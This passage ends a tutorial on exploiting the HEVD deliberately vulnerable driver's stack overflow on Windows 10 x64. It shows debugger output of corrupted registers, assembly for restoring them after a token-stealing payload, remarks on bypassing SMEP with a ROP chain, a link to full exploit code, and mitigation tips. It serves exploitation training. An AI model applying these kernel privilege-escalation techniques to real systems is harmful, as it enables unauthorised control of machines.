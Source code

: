 Now sometime after hitting `nt!IofCallDriver+0x59`
```
kd> u @rip
nt!ObfDereferenceObject+0x5:
fffff800`152381c5 mov     qword ptr [rsp+10h],rsi
fffff800`152381ca push    rdi
fffff800`152381cb sub     rsp,30h
fffff800`152381cf cmp     dword ptr [nt!ObpTraceFlags (fffff800`15604004)],0
fffff800`152381d6 mov     rsi,rcx
fffff800`152381d9 jne     nt!ObfDereferenceObject+0x160d16 (fffff800`15398ed6)
fffff800`152381df or      rbx,0FFFFFFFFFFFFFFFFh
fffff800`152381e3 lock xadd qword ptr [rsi-30h],rbx
kd> ? @rsi
Evaluate expression: -8795734228891 = fffff800`1562c065         // Address of mov cr4,rcx instead of 0
kd> ? @rdi
Evaluate expression: 4702111234474983745 = 41414141`41414141    // Some offset from our buffer instead of 0
```

Now that those registers are corrupted, we can just reset their expected value (zeroeing them out) sometime before this code is ever hit. A perfect place for this is after we execute our token stealing payload. 

```
xor rsi, rsi
xor rdi, rdi
```

Last step would be adjusting the stack properly to point to `nt!IofCallDriver+0x59`'s stack frame by adding `0x40` to `rsp`.

Full exploit code can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/StackOverflow/Win10_x64).

### 4. Mitigation the vulnerability

Although this is a vanilla stack smashing vulnerability, it still happens all the time. Key ways to mitigate/avoid this vulnerability is:
1. Sanitize the input, don't trust the user data (or its size). Use upper/lower bounds.
2. Use /GS to utilize stack cookies.

Or even better, don't write a kernel driver unless you need to ;)

### 5. Recap

+ Bypassing SMEP might be intimidating at first, but a small ROP chain was able to make it a piece of cake.
+ Restoring execution flow was challenging due to access violations. Every stack frame had its own challenges.
+ Keeping an eye on registers is crucial. Note which registers get affected by your exploit and try to repair them if possible.
+ Offsets change quite often, there's a good chance this exploit will break with the next update.

### 5. References

+ [SMEP: What is it, and how to beat it on Windows](http://j00ru.vexillium.org/?p=783)

+ [Bypassing Intel SMEP on Windows 8 x64 Using Return-oriented Programming](http://blog.ptsecurity.com/2012/09/bypassing-intel-smep-on-windows-8-x64.html)

Whew, done.

---

\- Abatchy